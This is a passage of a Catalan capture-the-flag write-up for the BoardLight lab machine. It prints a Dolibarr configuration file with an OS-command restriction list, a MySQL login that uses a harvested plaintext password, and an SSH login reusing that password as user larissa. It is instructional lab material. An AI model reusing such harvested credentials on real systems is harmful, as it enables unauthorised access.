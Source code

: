 ```
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';

//$dolibarr_main_demo='autologin,autopass';
// Security settings
$dolibarr_main_prod='0';
$dolibarr_main_force_https='0';
$dolibarr_main_restrict_os_commands='mysqldump, mysql, pg_dump, pgrestore';
$dolibarr_nocsrfcheck='0';
$dolibarr_main_instance_unique_id='ef9a8f59524328e3c36894a9ff0562b5';
$dolibarr_mailing_limit_sendbyweb='0';
$dolibarr_mailing_limit_sendbycli='0';

//$dolibarr_lib_FPDF_PATH='';
//$dolibarr_lib_TCPDF_PATH='';
//$dolibarr_lib_FPDI_PATH='';
//$dolibarr_lib_TCPDI_PATH='';
//$dolibarr_lib_GEOIP_PATH='';
//$dolibarr_lib_NUSOAP_PATH='';
//$dolibarr_lib_ODTPHP_PATH='';
//$dolibarr_lib_ODTPHP_PATHTOPCLZIP='';
//$dolibarr_js_CKEDITOR='';
//$dolibarr_js_JQUERY='';
//$dolibarr_js_JQUERY_UI='';

//$dolibarr_font_DOL_DEFAULT_TTF='';
//$dolibarr_font_DOL_DEFAULT_TTF_BOLD='';
$dolibarr_main_distrib='standard';`
```

Per tant, provarem de connectar-nos amb les credencials que acabem d'obtenir. Però no funciona i es queda bloquejat aquí:

```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ mysql -D dolibarr -u dolibarrowner -p
</htdocs/conf$ mysql -D dolibarr -u dolibarrowner -p  
Enter password: serverfun2$2023!!
show databases;`
```

Després de seguir cercant, penso que hem pogut veure com el home de l'usuari és larissa, però no hi hem pogut accedir, però, hem vist que té ssh el servidor ja que té el directori ssh, per tant, potser ens podem connectar amb l'usuari larissa per ssh. Ho provem:

```
──(root㉿kaliPol)-[/home/polkali/Documents/BoardLight/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253]
└─# ssh larissa@10.10.11.11   
The authenticity of host '10.10.11.11 (10.10.11.11)' can't be established.
ED25519 key fingerprint is SHA256:xngtcDPqg6MrK72I6lSp/cKgP2kwzG6rx2rlahvu/v0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.11' (ED25519) to the list of known hosts.
larissa@10.10.11.11's password: 
Last login: Sat Jul 20 12:00:53 2024 from 10.10.14.104
larissa@boardlight:~$ `
```
